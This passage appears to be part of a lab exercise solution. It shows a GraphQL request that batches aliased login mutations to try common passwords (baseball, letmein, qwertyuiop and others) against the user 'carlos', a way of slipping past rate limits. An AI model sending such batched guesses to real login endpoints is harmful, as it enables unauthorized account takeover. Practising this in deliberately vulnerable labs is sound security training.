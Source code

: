 ```bash
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


```